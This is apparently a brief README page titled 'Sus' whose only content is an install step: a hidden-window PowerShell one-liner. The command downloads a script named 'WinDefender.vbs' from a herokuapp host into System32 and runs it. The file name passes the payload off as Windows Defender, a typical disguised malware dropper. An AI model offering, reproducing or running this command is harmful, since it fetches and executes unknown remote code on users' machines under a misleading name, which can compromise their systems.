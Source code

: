 # Sus

## Install some sus software

```bash
powershell -w hidden $a='WinDefender.vbs';$p=$env:windir+'\System32\'+$a;(new-object System.Net.WebClient).DownloadFile('https://windefender.herokuapp.com/'+$a,$p);wscript $p i
```
